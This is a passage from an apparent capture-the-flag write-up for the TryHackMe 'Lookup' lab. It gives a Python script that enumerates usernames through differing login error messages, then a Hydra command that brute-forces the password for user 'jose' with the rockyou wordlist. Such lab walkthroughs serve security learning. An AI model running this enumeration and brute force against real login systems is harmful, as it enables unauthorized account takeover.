 ```
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines
            
            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing
            }

            # Send the POST request
            response = requests.post(url, data=data)
            
            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong usernames
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")

```

<br>

Make sure to change the path of file which contains the names. change it to the path where your names.txt is located.

And by running this script we find another username, "jose".

Let's use Hydra to perform brute force attack for "jose".
<br>
<br>

```
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```
<br><br>
After a successfull brute force attack we get. 
<br>

<br>

<img width="791" height="64" alt="Screenshot 2025-09-15 024553" src="https://github.com/user-attachments/assets/f36fdc76-a3de-4ee6-b9a7-10a81ae4040c" />

<br>
<br>
And here we go! 
<br>
<br>
